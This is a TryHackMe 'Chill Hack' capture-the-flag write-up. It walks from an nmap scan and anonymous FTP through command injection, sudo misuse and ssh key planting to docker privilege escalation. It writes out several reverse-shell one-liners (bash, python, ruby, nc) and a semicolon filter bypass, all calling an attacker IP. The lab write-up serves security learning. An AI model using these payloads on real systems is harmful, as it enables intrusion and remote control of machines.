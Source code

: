# TryHackMe-Chill Hack

## NMAP

```
Nmap scan report for 10.10.244.249                                                                                                             [4/7]
Host is up (0.41s latency).          
Not shown: 997 closed ports          
PORT   STATE SERVICE VERSION                                              
21/tcp open  ftp     vsftpd 3.0.3                                         
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                    
|_-rw-r--r--    1 1001     1001           90 Oct 03 04:33 note.txt                                                                                  
| ftp-syst:                                                               
|   STAT:                                                                 
| FTP server status:                                                      
|      Connected to ::ffff:10.2.54.209                                    
|      Logged in as ftp                                                   
|      TYPE: ASCII                   
|      No session bandwidth limit                                                                                                                   
|      Session timeout in seconds is 300                                  
|      Control connection is plain text                                                                                                             
|      Data connections will be plain text                                                                                                          
|      At session startup, client count was 2                                                                                                       
|      vsFTPd 3.0.3 - secure, fast, stable                                
|_End of status                                                           
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                   
| ssh-hostkey:                                                                                                                                      
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)                                                                                      
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)                                                                                     
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)                                                                                   
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                 
|_http-server-header: Apache/2.4.29 (Ubuntu)                              
|_http-title: Game Info              
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                      
Nmap done: 1 IP address (1 host up) scanned in 68.20 seconds                
```

## PORT 80

<img src="https://imgur.com/OtBH9Y6.png"/>

## PORT 21

We see from the nmap results that `anonymous` login on ftp is enabled ,

<img src="https://imgur.com/4K8BMn3.png"/>


We can only find a `note.txt`  file

<img src="https://imgur.com/iwaYiYw.png"/>

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
By reading this we can assume that there are two users `anurodh` and `appar`.

## Gobuster

Let's do a directory brute force on the web page

<img src="https://imgur.com/1hGSpry.png"/>

We are presented a page where we can input something and it's always good to try some system commands to check if there exists `RCE` (Remote Code Execution)

So I'll try running a command `pwd` which will print the current working directory 

<img src="https://imgur.com/FlfoNYa.png"/>

And it does work so let's try to input a reverse shell command so that we may get our intial foothold.But problem is that it's filtering the input so if we try to input something malicious it's going to filter that out like ruuning these reverse shells

```
bash -i >& /dev/tcp/10.2.54.209/2222 0>&1

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.54.209",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])

ruby -rsocket -e'f=TCPSocket.open("10.2.54.209",2222).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

nc -e /bin/sh 10.2.54.209 4444
```

But if we combine commands togther like 

`pwd;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.54.209 2222 >/tmp/f`

<img src="https://imgur.com/oUc9m40.png"/>

We are in the box as `www-data`

Running `sudo -l` will tell us that what we could run as other user or as root so in this case we run a file as user `apaar`

<img src="https://imgur.com/YJY6dWn.png"/>
Now before running it let's see what the script does

<img src="https://imgur.com/wvirJ0l.png"/>

So It's going to take two inputs first input `$person` would mean nothing it can be random string since it is only being printed another input `$msg` will goto a command `$msg 2>/dev/null` so we can try running a command like `cat local.txt` which is our user flag and it's going to redirect any output errors to null so basically we can run any command as user `apaar`

<img src="https://imgur.com/6Xu0rP7.png"/>

Try running `/bin/sh` to see if it get a shell as  `appar`

<img src="https://imgur.com/TAmZVeu.png"/>

Transfer `linpeas` on the box

<img src="https://imgur.com/eq09ZT3.png"/>

Running linepeas I didn't find much but saw that there are two ports on localhost 3306 which is `mysql` and `9001` which we can acess through ssh portforwarding

Before doing that let's generate a public and private key for ssh for that use `ssh-keygen` then copy the contents of `id_rsa.pub` into `authorized_keys`

<img src="https://imgur.com/aA7VQwG.png"/>

`ssh -L 9001:localhost:9001 apaar@10.10.165.124 -i id_rsa`

After doing that we can visit that port

<img src="https://imgur.com/SYdewr2.png"/>

Let's visit `var/www`

<img src="https://imgur.com/ce4PJod.png"/>

The step for ssh portforwarding wasn't needed as we could have just grab that picture or visted the page `/hacker.php` and it's uselsess to go for finding mysql username and password as it is just a rabbit hole I would say it was waste of time 

<img src="https://imgur.com/XYUv8OC.png"/>

Anyway,

<img src="https://imgur.com/un8Pfhk.png"/>

<img src="https://imgur.com/o8lpV87.png"/>

And this archive is password protected so we have to use a password cracking tool , the one that I use is called `fcrackzip`

<img src="https://imgur.com/2x0tUxb.png"/>

On reading that extract source code file we can fine a base64 enconded text which could be a user password

<img src="https://imgur.com/agdhwta.png"/>

And we are now logged in as `anurodh`  and we can see that this user is in the group of `docker`

<img src="https://imgur.com/ShIc4XA.png"/>

Looking at privilege escalation for docker on `GTFOBINS`

<img src="https://imgur.com/GDBVmQY.png"/>

We are root !!!
